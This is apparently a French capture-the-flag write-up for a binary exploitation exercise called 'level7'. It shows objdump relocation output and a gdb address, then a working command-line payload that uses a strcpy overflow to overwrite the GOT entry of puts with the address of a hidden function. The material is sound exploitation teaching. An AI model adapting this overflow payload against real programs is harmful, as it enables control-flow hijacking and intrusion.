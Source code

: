 # level7

On fait un buffer overflow sur le 1er `strcpy` avec notre `argv[1]` pour modifier l'adresse du 1ere argument du 2nd `strcpy` (offset de 20)

Grâce au GOT, on obtient l'adresse de `puts()`:
```
$ objdump -R ./level7

./level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts <-----------
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
```

À l'adresse de `puts`, on y écrit l'adresse de `m`:
```
(gdb) info function
# 0x080484f4  m
```

Le payload:
```bash
./level7 $(python -c "print 'A' * 20 + '\x28\x99\x04\x08'") $(python -c 'print "\xf4\x84\x04\x08"')
```
